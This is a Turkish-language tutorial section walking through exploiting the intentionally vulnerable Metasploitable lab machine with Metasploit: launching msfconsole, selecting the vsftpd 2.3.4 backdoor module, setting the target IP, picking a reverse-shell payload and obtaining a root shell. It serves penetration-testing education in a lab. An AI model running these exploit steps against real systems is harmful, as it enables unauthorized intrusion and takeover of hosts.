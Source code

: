 ## 6. Sanal Makineyi Hacklemek: Metasploit ile Exploit Kullanımı
Metasploit, sızma testleri için kullanılan güçlü bir araçtır. Bir süper kahraman aleti gibi: Zayıf noktaları bulur ve onları test eder. Metasploitable’ı hacklemek için aşağıdaki adımları izleyelim.

### Adım Adım Exploit Süreci
1. **Metasploit’i Başlat:**
   ```bash
   msfconsole
   ```
   Bu, Metasploit’in komut arayüzünü açar.[](https://www.beyaz.net/tr/guvenlik/makaleler/sizma_testlerinde_metasploit_kullanimi.html)

2. **Hedef Zafiyeti Seç:**
   Nmap taramasında vsftpd 2.3.4’ün açık olduğunu gördük. Bu versiyonun bilinen bir açığı var. Exploit’i seçmek için:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

3. **Parametreleri Ayarla (Set Komutu):**
   - Hedef IP adresini belirt:
     ```bash
     set RHOSTS 10.0.2.4
     ```
   - Bağlantı portunu belirt (varsayılan 21):
     ```bash
     set RPORT 21
     ```

4. **Payload Seçimi:**
   Payload, exploit başarılı olduğunda ne yapılacağını belirler (ör. bir komut istemi aç). Varsayılan payload genellikle uygundur, ama kontrol etmek için:
   ```bash
   show payloads
   ```
   Örnek bir payload seçimi:
   ```bash
   set PAYLOAD cmd/unix/reverse
   ```

5. **Saldırıyı Başlat (Run veya Exploit):**
   ```bash
   run
   ```
   veya
   ```bash
   exploit
   ```

6. **Başarılı Olursa:** Bir oturum (session) açılır ve hedef sistemde komut çalıştırabilirsiniz. Örnek:
   ```bash
   whoami
   ```
   **Çıktı:** `root` (Metasploitable’da tam yetki alırsınız).
